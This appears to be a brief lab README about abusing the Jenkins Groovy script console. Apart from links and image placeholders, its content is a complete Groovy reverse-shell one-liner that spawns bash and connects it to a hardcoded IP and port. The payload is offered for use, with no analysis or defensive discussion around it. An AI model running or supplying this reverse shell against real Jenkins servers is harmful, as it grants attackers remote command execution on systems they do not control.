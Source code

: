 # jenkins-abusing-groovy-script-console

- [Jenkins](http://jenkins:8080/)
- [Gitlab](http://gitlab/root)
- [frohoff/revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

----

```sh
String host="192.168.228.2";
int port=4455;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

----

EOF